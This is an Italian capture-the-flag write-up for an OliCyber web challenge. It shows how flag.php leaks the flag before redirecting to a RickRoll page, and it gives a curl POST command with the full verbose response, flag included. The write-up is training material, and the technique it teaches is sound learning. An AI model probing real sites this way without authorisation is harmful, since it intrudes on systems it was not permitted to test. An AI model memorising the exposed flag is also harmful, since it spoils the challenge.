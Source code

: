> Sotto gli occhi

Non appena si prova a inserire una password nel form disponibile all'URL, rimanda a /roll.html (che è un RickRoll ovviamente), e non termina l'esecuzione del codice php; questo significa (e si può vedere dal Network) che la flag viene stampata al momento della richiesta ed è visibile se si impedisce il redirect automatico.

Richiediamo la pagina nel modo che preferiamo, con curl il comando da eseguire è `curl -v -X POST -d password=1234 http://was-it-a-flag.challs.olicyber.it/flag.php`:

```html
* Host was-it-a-flag.challs.olicyber.it:80 was resolved.
* IPv6: (none)
* IPv4: 5.75.221.48
*   Trying 5.75.221.48:80...
* Connected to was-it-a-flag.challs.olicyber.it (5.75.221.48) port 80
> POST /flag.php HTTP/1.1
> Host: was-it-a-flag.challs.olicyber.it
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 13
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 302 Found
< Content-Type: text/html; charset=UTF-8
< Date: Sat, 13 Sep 2025 20:54:47 GMT
< Location: roll.html
< Server: nginx
< Transfer-Encoding: chunked

    <!DOCTYPE html>
    <html>
        flag{go_visit->http://cioe.deallora.de}    
    </html>

* Connection #0 to host was-it-a-flag.challs.olicyber.it left intact
```